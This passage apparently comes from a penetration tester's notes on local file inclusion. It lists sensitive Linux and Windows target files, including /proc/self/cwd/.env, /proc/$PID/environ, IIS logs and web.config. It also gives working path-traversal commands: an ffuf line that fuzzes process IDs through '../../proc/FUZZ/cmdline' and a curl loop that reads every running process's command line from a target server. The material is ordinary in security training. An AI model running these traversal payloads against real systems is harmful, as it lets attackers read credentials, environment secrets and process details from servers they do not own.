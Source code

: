 ```bash
~/.Xdefaults
~/.xinitrc
~/.Xresources
~/.xsession


/proc/self/stat # note the first PIDs that appear and then try /proc/$PID/cmdline
/proc/self/cwd/.env

/proc/net/tcp # we get sth like XXXXXXXX:XXXX ---> take last XXXX and use python interpreter to input 0x0016 and get the decimal value of the port
/proc/net/fib_trie # we can get subnets to check if we are inside a container for example in case we see 172.10.XXX.XXX

https://www.tecmint.com/exploring-proc-file-system-in-linux/
/proc/$PID/environ
/proc/$PID/cmdline
/proc/$PID/stat
/proc/$PID/fd
/proc/$PID/cwd

# Fuzz PID to get running processes (generate wordlist with sequence)
└─$ ffuf -c -r -u 'http://$IP/$PATH=../../../../../../../../proc/FUZZ/cmdline' -w PIDs -ic -t 100 -fw 1 2>/dev/null
# We get command for every running process
└─$ for i in $(cat good-PIDs); do curl -s "http://$IP/$PATH=../../../../../../../../proc/$i/cmdline" | cat && echo -e '\n' ; done  
```
{% endcode %}

## Interesting Windows files

Sensitive files are often not easily found on Windows without being able to list the contents of directories. This means to identify files containing sensitive information, we need to closely examine the <mark style="color:blue;">**web application**</mark> and collect information about the <mark style="color:blue;">**web server, framework,and programming language.**</mark>

<pre class="language-bash" data-overflow="wrap" data-full-width="true"><code class="lang-bash">https://docs.microsoft.com/en-us/iis/manage/provisioning-and-managing-iis/managing-iis-log-file-storage
C:\inetpub\logs\LogFiles\W3SVC1\
\inetpub\wwwroot\web.config


https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt
https://github.com/soffensive/windowsblindread
####### IIS
https://learn.microsoft.com/en-us/iis/manage/provisioning-and-managing-iis/managing-iis-log-file-storage
<strong>
</strong><strong># Always existing file in recent Windows machine. Ideal to test
</strong>c:\windows\system32\license.rtf
c:\windows\system32\eula.txt

